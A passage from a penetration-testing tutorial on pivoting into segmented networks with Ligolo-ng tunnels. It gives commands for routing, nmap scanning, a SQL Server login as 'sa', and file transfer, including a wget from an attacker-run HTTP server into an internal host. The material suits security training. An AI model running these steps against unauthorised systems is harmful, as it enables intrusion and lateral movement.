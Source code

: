 ### Step 6: Add Route to Third Network

```
# On attack machine
sudo ip route add 172.16.5.0/24 dev ligolo
```

### Step 7: Test Connectivity to Final Network

```bash
# Verify connectivity
ping 172.16.5.50

# Scan the network
nmap -sV 172.16.5.50
```

### Example Scenario: Accessing Database Server

```bash
# Discover database server
nmap -p 1433,3306,5432 172.16.5.0/24

# Connect to SQL Server
sqlcmd -S 172.16.5.60 -U sa -P password
```

## File Transfers Through Ligolo-ng Tunnels

Ligolo-ng tunnels allow you to transfer files between networks that were previously segmented.

### Using Built-in Tools

#### Direct Transfer using SCP/SFTP

```bash
# Transfer file to host in internal network
scp /path/to/local/file user@10.10.10.50:/path/on/target/

# Transfer file from host in internal network
scp user@10.10.10.50:/path/on/target/file /local/path/
```

#### Using HTTP Server

```bash
# Start Python HTTP server on attack machine
python3 -m http.server 8000

# Download file on internal host via the tunnel
wget http://attack_machine_ip:8000/file.txt
```

### Setting Up a SOCKS Proxy with Ligolo-ng
